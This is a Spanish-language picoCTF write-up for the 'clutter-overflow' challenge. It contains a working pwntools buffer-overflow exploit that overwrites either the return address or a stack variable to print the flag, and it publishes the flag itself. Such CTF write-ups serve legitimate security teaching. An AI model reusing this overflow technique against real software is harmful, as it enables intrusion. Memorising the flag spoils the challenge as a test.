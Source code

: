#  clutter-overflow

## Descripcion
Clutter, clutter everywhere and not a byte to use.`nc mars.picoctf.net 31890`
## Pistas

## Solucion
```
Usamos el siguiente script para la solucion:
from pwn import *

#Sets remote host and port
p = remote("mars.picoctf.net", 31890)

#Only one of the payloads below will work at a time

#This overwrites the instruction pointer, jumps to `0x0040077e`, and thus executes `cat flag.txt`
########## Use This or The Other One ###############

payload = b"A"*280 
payload += p64(0x0040077e)

####################################################


#This overwrites the variable to make it equal to "0xdeadbeef", which prints us the flag
######### Use This or The Other One ################

#payload = b"A"*264 
#payload += p64(0xdeadbeef)

####################################################
p.sendline(payload)

p.interactive()
obteniento la bandera

```

## Bandera

picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}

## Notas adicionales

## Referencias
- [WriteUp](https://biplav.xyz/posts/coverflow/)